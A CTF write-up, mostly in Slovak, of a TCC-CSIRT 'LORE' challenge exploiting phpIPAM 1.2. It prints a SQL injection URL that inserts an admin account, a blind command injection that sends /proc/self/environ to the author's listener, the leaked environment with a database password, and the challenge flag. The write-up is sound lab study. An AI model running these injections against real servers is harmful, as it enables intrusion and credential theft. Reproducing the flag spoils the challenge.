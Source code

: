 # Zadanie #

> Hi, TCC-CSIRT analyst,
> 
> do you know the feeling when, after a demanding shift, you fall into lucid dreaming and even in your sleep, you encounter tricky problems? Help a colleague solve tasks in the complex and interconnected world of LORE, where it is challenging to distinguish reality from fantasy.
> 
> - The entry point to LORE is at [http://intro.lore.tcc](http://intro.lore.tcc "http://intro.lore.tcc").

> See you in the next incident!
> 
> **Hint1:**
> Be sure you enter flag for correct chapter.


----------

# Riešenie #

Na stránke intro máme 4 slajdy, každý pre kždú kapitolu. Každý obsahuje nejakú vetu, ktorá sa zdá byť nejakým dodatočným hintom

> [2 Origin](http://pimpam.lore.tcc/ "2 Origin")
> 
> An ink on blue,
> Revealing sources of olden days,
> Very silent whisper.
> 
> Not assigned, but findable,
> The passage for anyone,
> Shall ease the mind.

Navštívime stránku http://pimpam.lore.tcc/, kde vidíme phpIPAM admin panel login stránku, kde sa mi v čase keď som na stránku dostal prvýkrát podarilo prihlásiť údajmi Admin:ipamadmin, ale ako píšem tento writeup, tak už to možné nie je. Každopádne, ide o nástroj managovania ip adries a tento máme vo verzii 1.2, ktorá je známa zraniteľnosťami ako path traveral ako v úlohe 1, ale aj sql injection a XSS.. Stačí pogoogliť a vieme pomerne rýchlo nájsť zraniteľné endpointy. Napríklad sem - `https://www.exploit-db.com/exploits/40338`

Aby sme vedeli využiť sql inject, bolo by vhodné vedieť ako vyzerá databáza, prípadne sú rozna nástroje ako SQLMAP, ktoré dokážu s týmto pomôcť. Mne to pomohlo len nájsť endpoint, o ktorom som už vedel z webu, ale zbežnou statickou analýzou zdrojáku tejto verzie phpIPAM vidím, že je možne aj neautentikovaému používateľovi stiahniť dump  databázy.

    http://pimpam.lore.tcc/app/admin/import-export/generate-mysql.php

Tu už vidíme celú schému a skúsime si injektnuť používateľa, pričom použijem hash default hesla

    http://pimpam.lore.tcc/?page=tools&section=changelog&subnetId=a&sPage=50; INSERT INTO users VALUES (123,'blablabla',1,'$6$rounds=3000$JQEE6dL9NpvjeFs4$RK5X3oa28.Uzt/h5VAfdrsvlVe.7HgQUYKMXTJUsud8dmWfPzZQPbRbk8xJn1Kyyt4.dWm4nJIYhAV2mbOZ3g.','','Administrator','phpIPAM Admin','admin@domain.local','No','0','statistics;favourite_subnets;changelog;access_logs;error_logs;top10_hosts_v4',9,'6;6;','No','No','No','2024-10-17 18:35:14','2024-10-17 18:07:34','2024-10-17 18:35:14','default',0,30,NULL,NULL)

Prihlásim sa dnu ako blablabla:ipamadmin

Tu som sa poskúšal všetko možné aj nemožné, skúšal som pomocou sql injectu, či sa mi nepodarí stiahnuť alebo uložiť súbor cez DB, ale používateľ pimpam tejto databázy má veľmi osekané možnosti a nie je to len databázou. Rovnako som skúsil aj path traversal vulnerabilitu na endpointe súvisiacom so subnet import (.../ripe-import/import-subnets.php) , ale ako sa ukázalo, dokonca aj ako sa pokúšal zapnúť API, php na serveri má zakázané curl. Takže path traversal nám nepomôže.

Po dlhom čase ničneobjavenia sa mi podarilo vygoogliť ešte jednu zraniteľnosť, blind command injection

    http://archive.justanotherhacker.com/2016/09/jahx163_-_phpipam_multiple_vulnerabilities.html

a toto už bolo skutočne užitočné. Endpoint `http://pimpam.lore.tcc/app/subnets/scan/subnet-scan-telnet.php` je podľa statickej analýzy schopný vykonať ľubovoľný príkaz, ktorého výstup síce nedokažem jednoducho printuť, pretože vykonaním môjho príkazu zlomím vykonávanie daného php scriptu a skočím do chyby 500, ale to mi nevadí, pretože si možem akýkoľvek príkaz poslať cez curl (vypnutý bol len cez php, ale nie v shell) pokiaľ mi bude bežať jednoduchý python http server..

U seba teda pustím v prvom terminal okne

    python3 -m http.server 8888                                                                             Serving HTTP on :: port 8888 (http://[::]:8888/) ... 

na pimpam injectnem command v druhom terminal okne (po skúsenosti s predošlej úlohy sa budem priamo sústreniť na premenné a nie súbory ako také)

    curl "http://pimpam.lore.tcc/app/subnets/scan/subnet-scan-telnet.php" -X POST --data "port=80&debug=1&subnetId=4;curl 10.200.0.13:8888/?flag=$(cat /proc/self/environ | tr -d \'\\n\');" 

a na prvom terminal okne sa mi objaví 

    ::ffff:10.99.24.81 - - [31/Oct/2024 16:38:17] "GET /?KUBERNETES_SERVICE_PORT=443KUBERNETES_PORT=tcp://192.168.128.1:443PIMPAM_DB_PORT=tcp://192.168.167.76:3306PIMPAM_DB_SERVICE_PORT=3306PIMPAM_DB_PORT_3306_TCP=tcp://192.168.167.76:3306HOSTNAME=pimpam-5858b674c9-vd6x8PIMPAM_WEB_SERVICE_HOST=192.168.200.130OLDPWD=/PIMPAM_DBPASS=2eb6a09ff7b8417c4344c8bde185a512APACHE_RUN_DIR=/var/run/apache2APACHE_PID_FILE=/var/run/apache2/apache2.pidPIMPAM_WEB_SERVICE_PORT=80PIMPAM_WEB_PORT=tcp://192.168.200.130:80PIMPAM_DBHOST=pimpam-dbPIMPAM_WEB_SERVICE_PORT_WEB=80PIMPAM_WEB_PORT_80_TCP_ADDR=192.168.200.130KUBERNETES_PORT_443_TCP_ADDR=192.168.128.1PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binPIMPAM_WEB_PORT_80_TCP_PORT=80PIMPAM_WEB_PORT_80_TCP_PROTO=tcpKUBERNETES_PORT_443_TCP_PORT=443APACHE_LOCK_DIR=/var/lock/apache2KUBERNETES_PORT_443_TCP_PROTO=tcpLANG=CPIMPAM_DBNAME=pimpamAPACHE_RUN_USER=www-dataAPACHE_RUN_GROUP=www-dataAPACHE_SERVER_NAME=localhostAPACHE_LOG_DIR=/var/log/apache2PIMPAM_DB_PORT_3306_TCP_ADDR=192.168.167.76PIMPAM_WEB_PORT_80_TCP=tcp://192.168.200.130:80KUBERNETES_PORT_443_TCP=tcp://192.168.128.1:443KUBERNETES_SERVICE_PORT_HTTPS=443PIMPAM_DB_PORT_3306_TCP_PORT=3306KUBERNETES_SERVICE_HOST=192.168.128.1PWD=/var/www/html/app/subnets/scanPIMPAM_DB_PORT_3306_TCP_PROTO=tcpPIMPAM_DB_SERVICE_HOST=192.168.167.76PIMPAM_DB_SERVICE_PORT_MYSQL=3306FLAG=FLAGV51j-9ETA-Swya-8cOR HTTP/1.1" 200 -

pretty print

    KUBERNETES_SERVICE_PORT=443
	KUBERNETES_PORT=tcp://192.168.128.1:443
	PIMPAM_DB_PORT=tcp://192.168.167.76:3306
	PIMPAM_DB_SERVICE_PORT=3306
	PIMPAM_DB_PORT_3306_TCP=tcp://192.168.167.76:3306
	HOSTNAME=pimpam-5858b674c9-vd6x8
	PIMPAM_WEB_SERVICE_HOST=192.168.200.130
	OLDPWD=/
	PIMPAM_DBPASS=2eb6a09ff7b8417c4344c8bde185a512
	APACHE_RUN_DIR=/var/run/apache2
	APACHE_PID_FILE=/var/run/apache2/apache2.pid
	PIMPAM_WEB_SERVICE_PORT=80
	PIMPAM_WEB_PORT=tcp://192.168.200.130:80
	PIMPAM_DBHOST=pimpam-db
	PIMPAM_WEB_SERVICE_PORT_WEB=80
	PIMPAM_WEB_PORT_80_TCP_ADDR=192.168.200.130
	KUBERNETES_PORT_443_TCP_ADDR=192.168.128.1
	PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
	PIMPAM_WEB_PORT_80_TCP_PORT=80
	PIMPAM_WEB_PORT_80_TCP_PROTO=tcp
	KUBERNETES_PORT_443_TCP_PORT=443
	APACHE_LOCK_DIR=/var/lock/apache2
	KUBERNETES_PORT_443_TCP_PROTO=tcp
	LANG=C
	PIMPAM_DBNAME=pimpam
	APACHE_RUN_USER=www-data
	APACHE_RUN_GROUP=www-data
	APACHE_SERVER_NAME=localhost
	APACHE_LOG_DIR=/var/log/apache2
	PIMPAM_DB_PORT_3306_TCP_ADDR=192.168.167.76
	PIMPAM_WEB_PORT_80_TCP=tcp://192.168.200.130:80
	KUBERNETES_PORT_443_TCP=tcp://192.168.128.1:443
	KUBERNETES_SERVICE_PORT_HTTPS=443
	PIMPAM_DB_PORT_3306_TCP_PORT=3306
	KUBERNETES_SERVICE_HOST=192.168.128.1
	PWD=/var/www/html/app/subnets/scan
	PIMPAM_DB_PORT_3306_TCP_PROTO=tcp
	PIMPAM_DB_SERVICE_HOST=192.168.167.76
	PIMPAM_DB_SERVICE_PORT_MYSQL=3306
	FLAG=FLAG{V51j-9ETA-Swya-8cOR}


Na konci vidíme vlajku

----------

## Vlajka ##
    FLAG{V51j-9ETA-Swya-8cOR}